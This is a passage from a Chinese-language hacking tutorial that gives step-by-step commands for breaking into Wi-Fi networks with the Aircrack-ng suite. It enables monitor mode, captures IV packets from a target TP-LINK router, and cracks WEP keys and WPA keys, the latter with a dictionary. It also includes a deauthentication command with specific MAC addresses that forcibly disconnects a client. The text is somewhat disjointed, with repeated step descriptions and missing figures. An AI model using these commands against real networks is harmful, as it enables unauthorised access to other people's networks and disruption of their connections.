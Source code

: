 >>http://netsecurity.51cto.com/art/201105/264844_3.htm

当然，通过输入iwconfig查看也是可以滴。这个命令专用于查看无线网卡，不像ifconfig那样查看所有适配器。

    iwconfig 
	
在Linux下，我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：
#airmon-ng start wlan0 
步骤3：探测无线网络，抓取无线数据包。

在激活无线网卡后，我们就可以开启无线数据包抓包工具了，这里我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：

不过在正式抓包之前，一般都是先进行预来探测，来获取当前无线网络概况，包括AP的SSID、MAC地址、工作频道、无线客户端MAC及数量等。只需打开一个Shell，输入具体命令如下：

#airodump-ng mon0 
参数解释：

mon0为之前已经载入并激活监听模式的无线网卡。如下图8所示。

既然我们看到了本次测试要攻击的目标，就是那个SSID名为TP-LINK的无线路由器，接下来输入命令如下：

#airodump-ng --ivs –w longas -c 6 wlan0 
参数解释：

--ivs 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；

-c 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；

-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。



图10

注意：这是因为airodump-ng这款工具为了方便后面破解时候的调用，所以对保存文件按顺序编了号，于是就多了-01这样的序号，以此类推，在进行第二次攻击时，若使用同样文件名longas保存的话，就会生成名为longas-02.ivs的文件，一定要注意哦，别到时候找不到又要怪我没写清楚：）

啊，估计有的朋友们看到这里，又会问在破解的时候可不可以将这些捕获的数据包一起使用呢，当然可以，届时只要在载入文件时使用longas*.cap即可，这里的星号指代所有前缀一致的文件。

在回车后，就可以看到如下图11所示的界面，这表示着无线数据包抓取的开始。


图11
airodump-ng -c 6  -w <文件名> --ivs mon0

#aircrack-ng  *.ivs 
破解 web加密,需要iv2万左右
#aircrack-ng  -w 字典文件 *.ivs 
破解 wpa加密, 一个握手包+海量字典

#强制断开
	aireplay-ng -0 1  -a 6C:E8:73:50:85:F0 -c 00:1B:77:BE:19:FC mon0




